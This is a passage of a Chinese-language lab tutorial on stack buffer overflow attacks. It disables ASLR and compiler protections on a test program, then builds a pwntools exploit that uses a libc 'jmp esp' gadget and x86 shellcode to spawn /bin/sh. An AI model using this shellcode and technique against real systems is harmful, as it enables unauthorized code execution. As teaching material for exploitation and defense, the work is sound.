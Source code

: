 然后在 **root 用户**下关闭系统随机加载  

```shell
echo 0 > /proc/sys/kernel/randomize_va_space
```

在编译时选择关闭程序随机加载，关闭栈保护，关闭不可执行栈（这些名词的含义在后文涉及）  

```shell
gcc -m32 -no-pie -fno-stack-protector -z execstack -o anti_sof anti.c
```

使用 checksec 和 ldd 命令，可以看到这个程序的保护模式，还可以看到这个程序链接了哪些文件和这个文件的加载位置——0xf7ded000。  

```shell
checksec anti_sof
ldd anti_sof
ldd anti_sof
ldd anti_sof
```

![ldd](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/ldd.png)  

由于溢出攻击要在溢出部分使用机器码，传入程序的字符串一般包含非编码字符，没法用键盘键入，因此需要用另一个程序代替我们输入，直接输入含非编码字符的字符串。  
这时引入一个专门用于漏洞开发的工具 pwntools。这个工具可以替我们运行某程序，获取其输出、给予输入。接下来使用 python 编写一个攻击程序。  

首先搜索 libc 文件中 “jmp esp” 指令出现的位置。  

```python
# 搜索 libc.so.6，找到匹配 “jmp esp” 的汇编代码
libc = ELF ('/lib32/libc.so.6')              
jmp_esp = asm ('jmp esp') 
jmp_esp_offset = libc.search (jmp_esp).next ()
```

这个位置是该指令在文件中的位置，真实地址还需加上这个文件的加载地址，文件的加载位置在之前用 ldd 命令已经获取了。  

```python
libc_base = 0xf7ded000 # libc 的加载地址
jmp_esp_addr = libc_base + jmp_esp_offset # 得到 jmp_esp_addr
```

为了溢出，我们就需要找到缓冲区的最大长度，但是缓冲区长度不等于 c 程序中定义的数组长度。有一种简单的方法就是尝试。首先找到最大可以接收输入的长度，然后再一点点增加直至可以攻击成功。精确的方法可以参考
[栈溢出找填充数据大小 - 简书](https://www.jianshu.com/p/278f8d1f8322)  

通过尝试，输入 23 个字符时就报错，然后修改 sof1.py 中填充 buf 的大小从 23 开始，直到溢出攻击成功。  

![attempt](https://bobbybby.oss-cn-zhangjiakou.aliyuncs.com/img/stack_overlow_attack/attempt.png)  

如果使用我提供的尝试的方法，那得先把后面这部分完成了 —— 构造字符串溢出的部分。
这部分前四个字节当然是之前算出来的 “jmp esp” 指令所在位置，之后加上获取 shell 的代码，一般是 “/bin/sh” 命令。  

```python
buf = '1'* 28 
buf += p32 (jmp_esp_addr)
# “/bin/sh”
buf += '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
```
